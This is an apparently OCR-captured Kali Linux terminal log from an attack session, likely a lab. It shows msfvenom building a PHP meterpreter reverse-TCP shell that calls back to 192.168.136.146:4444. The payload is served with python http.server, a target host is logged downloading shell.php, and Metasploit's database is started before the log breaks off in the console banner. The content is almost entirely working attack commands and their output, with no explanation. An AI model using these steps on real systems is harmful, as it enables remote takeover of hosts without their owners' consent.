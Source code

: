 ```
┌──(root💀kali2021)-[/home/kali2021/桌面]
└─# msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.136.146 lpor=4444 -o shell.php

[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1116 bytes
Saved as: shell.php
                                                                                                                                                                                                                    
┌──(root💀kali2021)-[/home/kali2021/桌面]
└─# python3 -m http.server 9090
Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
192.168.136.151 - - [15/Apr/2024 21:00:36] "GET /shell.php HTTP/1.0" 200 -
192.168.136.151 - - [15/Apr/2024 21:01:07] "GET /shell.php HTTP/1.0" 200 -
192.168.136.151 - - [15/Apr/2024 21:01:36] "GET /shell.php HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
                                                                                                                                                                                                                    
┌──(root💀kali2021)-[/home/kali2021/桌面]
└─# 



┌──(root💀kali2021)-[/home/kali2021/桌面]
└─# msfdb run                                                                           
[+] Starting database
[+] Creating database user 'msf'
为新角色输入的口令: 
再输入一遍: 
[+] Creating databases 'msf'
┏━(Message from Kali developers)
┃
┃ We have kept /usr/bin/python pointing to Python 2 for backwards
┃ compatibility. Learn how to change this and avoid this message:
┃ ⇒ https://www.kali.org/docs/general-use/python3-transition/
┃
┗━(Run: “touch ~/.hushlogin” to hide this message)
[+] Creating databases 'msf_test'
┏━(Message from Kali developers)
┃
┃ We have kept /usr/bin/python pointing to Python 2 for backwards
┃ compatibility. Learn how to change this and avoid this message:
┃ ⇒ https://www.kali.org/docs/general-use/python3-transition/
┃
┗━(Run: “touch ~/.hushlogin” to hide this message)
[+] Creating configuration file '/usr/share/metasploit-framework/config/database.yml'
[+] Creating initial database schema
                                                  
Call trans opt: received. 2-19-98 13:24:18 REC:Loc

     Trace program: running

           wake up, Neo...
        the matrix has you
      follow the white rabbit.

          knock, knock, Neo.

                        (`.         ,-,
                        ` `.    ,;' /
                         `.  ,'/ .'
                          `. X /.'
                .-;--''--.._` ` (
```